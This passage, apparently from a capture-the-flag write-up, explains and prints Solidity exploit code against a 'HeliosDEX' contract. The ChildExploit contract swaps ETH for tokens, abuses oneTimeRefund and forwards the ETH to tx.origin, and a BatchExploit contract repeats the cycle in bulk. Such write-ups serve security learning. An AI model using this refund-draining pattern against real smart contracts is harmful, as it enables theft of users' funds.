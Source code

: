 The **ChildExploit** contract is designed to perform a single swap/refund cycle. When deployed with a specified amount of ETH (for example, 1,000,000 wei), it carries out the following actions:

- Calls `swapForHLS()` to convert the provided ETH into HLS tokens.
- Retrieves the HLS token address and sets an allowance for HeliosDEX.
- Calls `oneTimeRefund()` using the entire HLS balance.
- Forwards any refunded ETH to `tx.origin`.

The complete code for ChildExploit is as follows:

```solidity

/* ========== ChildExploit Contract ========== */
/**
 * @notice When deployed with a specified amount of ETH (e.g. 1,000,000 wei),
 * the contract swaps that ETH for HLS, approves the Dex to spend the tokens,
 * triggers a refund via oneTimeRefund, and then forwards any resulting ETH
 * to tx.origin.
 */
contract ChildExploit {
    constructor(address _dex) payable {
        IHeliosDEX dex = IHeliosDEX(_dex);
        
        // 1) Swap all ETH for HLS.
        dex.swapForHLS{value: address(this).balance}();

        // 2) Approve the Dex to spend the HLS tokens.
        address hls = dex.heliosLuminaShards();
        IERC20(hls).approve(_dex, type(uint256).max);

        // 3) Refund the entire HLS balance.
        uint256 hlsBalance = IERC20(hls).balanceOf(address(this));
        dex.oneTimeRefund(hls, hlsBalance);

        // 4) Forward any resulting ETH to tx.origin.
        uint256 leftover = address(this).balance;
        if (leftover > 0) {
            (bool ok, ) = tx.origin.call{value: leftover}("");
            require(ok, "ChildExploit: ETH forwarding failed");
        }
    }
    
    receive() external payable {}
}
```

### BatchExploit

The **BatchExploit** contract facilitates the deployment of multiple ChildExploit contracts in a single transaction. By providing parameters such as the ETH amount to send per ChildExploit (e.g., 1,000,000 wei) and the number of contracts to deploy (batch size), this contract automates the exploitation process. Leftover ETH that is insufficient to fund another ChildExploit is returned to the owner.
